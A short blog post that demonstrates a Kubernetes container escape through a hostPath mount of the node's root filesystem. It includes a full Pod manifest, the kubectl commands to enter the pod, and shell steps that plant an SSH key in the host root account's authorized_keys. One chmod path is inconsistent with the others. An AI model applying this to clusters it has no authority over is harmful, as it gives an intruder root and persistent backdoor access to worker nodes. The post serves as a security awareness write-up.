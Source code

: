 ```yaml
---
title: Fiddling with Kubernetes worker nodes
type: post
tags: [ kubernetes, security ]
comment: true
date: 2022-01-31 07:00:00 +0100
mathjax: false
published: true
---
```


**TL;DR**

> I needed to put some files into Worker Nodes in a [Kubernetes][]
> cluster and, **unfortunately**, I could do it.

Although, admittedly, was no surprise.

Containers are not primarily about ensuring strong isolation, but more
on allowing good citizens share some infrastructure with way to avoid
treading onto each other's feet.

So, in a *basic* cluster where containers are allowed to run as `root`,
and mounting host directory is open too, it's easy to run a Pod that
gives us access to the hosts's root directory.

This is described in [Kubernetes Container Escape With HostPath
Mounts][], and the gist of it is to run a Pod in the specific target
worker node (`worker01` in the example below):

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: horse01
spec:
  nodeName: worker01
  containers:  
  - image: alpine
    name: test-container
    command: ["tail"]
    args: ["-f", "/dev/null"] 
    volumeMounts:
    - mountPath: /host
      name: da-root-folks
  volumes:
  - name: da-root-folks
    hostPath:
      path: /
      type: Directory
```

Run that, and if your cluster is not specifically meant for enforcing
security, you're basically in:

```
$ kubectl apply -f t-horse.yaml

$ kubectl exec -it horse01 -- /bin/sh
```

Now the host's filesystem is accessible at `/host`... happy fiddling!

```
cntnr$ mkdir -p /host/root/.ssh
cntnr$ vi /host/root/.ssh/authorized_keys # add a public key...
cntnr$ chmod og-rwx /home/root/.ssh /host/root/.ssh/authorized_keys
```

Now `ssh` should work too.

Stay safe folks!

[Kubernetes]: https://www.kubernetes.io/
[Kubernetes Container Escape With HostPath Mounts]: https://infosecwriteups.com/kubernetes-container-escape-with-hostpath-mounts-d1b86bd2fa3
[specific-node]: https://kubernetes.io/docs/tasks/configure-pod-container/assign-pods-nodes/#create-a-pod-that-gets-scheduled-to-specific-node
